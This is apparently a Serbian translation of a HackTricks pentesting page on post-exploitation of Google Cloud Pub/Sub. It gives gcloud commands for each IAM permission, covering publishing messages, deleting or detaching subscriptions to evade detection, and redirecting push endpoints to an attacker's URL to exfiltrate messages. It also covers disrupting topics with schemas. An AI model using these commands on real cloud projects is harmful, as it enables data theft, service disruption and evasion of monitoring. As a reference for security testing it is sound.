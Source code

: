 # GCP - Pub/Sub Post Exploatacija

{{#include ../../../banners/hacktricks-training.md}}

## Pub/Sub

Za više informacija o Pub/Sub, proverite sledeću stranicu:

{{#ref}}
../gcp-services/gcp-pub-sub.md
{{#endref}}

### `pubsub.topics.publish`

Objavite poruku u temi, korisno za **slanje neočekivanih podataka** i aktiviranje neočekivanih funkcionalnosti ili iskorišćavanje ranjivosti:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Koristan za sprečavanje pretplate da prima poruke, možda da bi se izbegla detekcija.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Koristan za sprečavanje pretplate da prima poruke, možda da se izbegne otkrivanje.\
Moguće je obrisati temu čak i sa pretplatama koje su joj pridružene.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Koristite ovu dozvolu da ažurirate neka podešavanja teme kako biste je ometali, kao što su `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Dajte sebi dozvolu da izvršite bilo koji od prethodnih napada.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Preuzmite sve poruke na veb serveru:
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
Kreirajte pretplatu i koristite je za **povlačenje poruka**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Brisanje pretplate** može biti korisno za ometanje sistema za obradu logova ili nečega sličnog:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Koristite ovu dozvolu da ažurirate neka podešavanja tako da se poruke čuvaju na mestu kojem možete pristupiti (URL, Big Query tabela, Bucket) ili samo da ih ometate.
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
### `pubsub.subscriptions.setIamPolicy`

Dajte sebi dozvole potrebne za izvođenje bilo kojeg od prethodno komentisanih napada.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Napadnite šemu na temu tako da poruke ne ispunjavaju šemu i tako se tema ometa.\
Ako nema šema, možda ćete morati da kreirate jednu.
```json:schema.json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Ovo može izgledati kao brisanje šeme, ali ćete moći slati poruke koje ne ispunjavaju šemu. Međutim, pošto će šema biti obrisana, nijedna poruka zapravo neće ući u temu. Dakle, ovo je **BEZVREDNO**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Dajte sebi dozvole potrebne za izvođenje bilo kojeg od prethodno komentisanih napada.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Ovo će kreirati snimak svih neACKovanih poruka i vratiti ih u pretplatu. Nije baš korisno za napadača, ali evo:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{{#include ../../../banners/hacktricks-training.md}}
